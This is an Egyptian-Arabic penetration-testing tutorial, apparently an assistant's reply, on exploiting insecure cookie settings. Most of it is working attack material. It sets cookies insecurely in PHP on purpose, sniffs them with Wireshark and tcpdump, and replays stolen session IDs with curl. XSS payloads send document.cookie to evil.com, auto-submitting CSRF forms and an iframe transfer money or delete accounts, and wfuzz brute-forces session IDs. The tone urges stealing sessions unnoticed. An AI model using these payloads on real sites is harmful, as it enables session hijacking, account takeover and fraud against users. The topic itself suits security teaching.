### **1. فهم إعدادات الكوكيز غير الآمنة (Insecure Cookie Settings)**
#### **شرح عملي:**
الكوكيز هي بيانات صغيرة بيخزنها الموقع في المتصفح بتاعك عشان يتذكرك (زي الـ Session ID). لو الإعدادات بتاعتها ضعيفة، ممكن تتسرق أو تتعدل. الإعدادات المهمة هي:
- ء     (Session Hijacking) **Secure Flag:** لو مش موجود، الكوكيز بتتبعت عبر HTTP (مش مشفر).
- ء  **HttpOnly Flag:** لو مش موجود، الكوكيز بتتسرق بـ JavaScript (زي XSS).
- ء   **SameSite:** لو مش مضبوط، ممكن تتسرق عبر CSRF.

- **مثال:** لو الكوكيز بتتبعت عبر HTTP بدون `Secure`، المهاجم بيقدر يعترضها.

#### **كود عملي (PHP مع كوكيز غير آمنة):**
- كود يعمل كوكيز بدون حماية:
```php
<?php
setcookie("session_id", "xyz789"); # بدون Secure أو HttpOnly
session_start();
if (isset($_COOKIE['session_id']) && $_COOKIE['session_id'] == "xyz789") {
    echo "مرحباً! أنت مسجل.";
} else {
    echo "سجل دخولك!";
}
?>
```
- لو فتحت الموقع، الكوكيز هتتبعت عادي بدون تشفير.

#### **أمر عملي (فحص الكوكيز بـ curl):**
```bash
curl -I http://<IP>/
```
- لو رجعلك كوكيز في الـ Headers زي:
```
Set-Cookie: session_id=xyz789; path=/
```
- وما فيهوش `Secure` أو `HttpOnly`، يبقى غير آمن.

#### **خلاصة Pentest بالعامية:**
"لو لقيت الكوكيز بتتبعت من غير `Secure` أو `HttpOnly`، يبقى فيه عفريت! جرب تسرقها بـ Wireshark أو XSS وشوف لو بتدخلك الموقع!"

---

### **2. استغلال الكوكيز عبر اعتراضها (Cookie Interception)**  
#### **شرح عملي:**
لو الكوكيز مش محمية بـ `Secure Flag` وبتتبعت عبر HTTP، المهاجم بيقدر يعترضها بسهولة باستخدام MITM (زي على شبكة Wi-Fi مفتوحة). بعد ما يسرق الـ Session ID، يستخدمه عشان يدخل بحسابك.

#### **كود عملي (اعتراض بـ Wireshark):**
- شغل Wireshark:
```bash
wireshark -i eth0 -f "port 80"
```
- لو شفت الكوكيز في طلب HTTP زي:
```
Cookie: session_id=xyz789
```
- استخدمها بـ curl:
```bash
curl -b "session_id=xyz789" "http://<IP>/dashboard"
```
- لو دخلك، يبقى استغليتها!

#### **خلاصة Pentest بالعامية:**
"لو الموقع مش HTTPS أو الكوكيز بدون `Secure`، اسمع الشبكة بـ Wireshark أو tcpdump، خد الـ Session ID وحطه في متصفحك، وهتبقى داخل الحساب في ثانية!"

---

### **3. استغلال الكوكيز عبر XSS 
#### **شرح عملي:**
- **XSS:** لو الكوكيز مش محمية بـ `HttpOnly`، المهاجم بيحقن JavaScript يسرقها.
- **CSRF:** لو ما فيهوش `SameSite=Strict`، المهاجم بيخليك تبعت طلبات للموقع بدون ما تعرف.

#### **كود عملي (XSS لسرقة الكوكيز):**
- لو الموقع فيه ثغرة XSS، حط كود زي:
```html
<script>
fetch('http://evil.com/steal.php?cookie=' + document.cookie);
</script>
```
- لما المستخدم يفتح الصفحة، الكوكيز هتتبعت للمهاجم لو ما فيهوش `HttpOnly`.



### 4. استغلال الكوكيز عبر CSRF
#### **كود عملي (CSRF):**
- صفحة خبيثة تبعت طلب POST:
```html
<form action="http://<IP>/transfer" method="POST" id="form">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
</form>
<script>document.getElementById("form").submit();</script>
```
- لو الكوكيز بدون `SameSite`، الطلب هيتنفذ باسمك لو كنت مسجل.

#### **خلاصة Pentest بالعامية:**
"لو الكوكيز بدون `HttpOnly`، جرب تحقن XSS تسرقها. لو بدون `SameSite`، اعمل صفحة تبعت طلبات زي تحويل فلوس وشوف لو بتنجح من غير ما المستخدم يحس!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Missing Secure Flag:**
   - **MITM:** اعترض الكوكيز على HTTP بـ:
     ```bash
     tcpdump -i eth0 port 80 -w capture.pcap
     ```
     استخدم الـ Session ID في متصفحك:
     ```bash
     curl -b "session_id=xyz789" "http://<IP>/dashboard"
     ```

2. **Missing HttpOnly Flag:**
   - **XSS:** حقن كود يسرق الكوكيز:
     ```html
     <img src=x onerror="document.location='http://evil.com?c='+document.cookie">
     ```
     خد الـ ID وادخل بيه.

3. **Missing SameSite Attribute:**
   - **CSRF:** اعمل صفحة خبيثة تنفذ أوامر زي حذف حساب أو تحويل فلوس:
     ```html
     <iframe src="http://<IP>/delete_account" style="display:none"></iframe>
     ```
     لو نفذت، يبقى استغليتها.

4. **مشترك:**
   - **Cookie Dumping:** لو لقيت ثغرة XSS، استخدمها تطبع كل الكوكيز:
     ```html
     <script>alert(document.cookie)</script>
     ```
   - **Session Replay:** خد كوكيز قديمة وجربها لو الموقع ما بيبطلش الجلسات:
     ```bash
     curl -b "session_id=old123" "http://<IP>/dashboard"
     ```
   - **Brute Force Prediction:** لو الـ Session ID متوقع (زي `user123`)، جرب تخمنه يدوي أو بـ wfuzz:
     ```bash
     wfuzz -c -z range,100-200 -b "session_id=userFUZZ" http://<IP>/dashboard
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!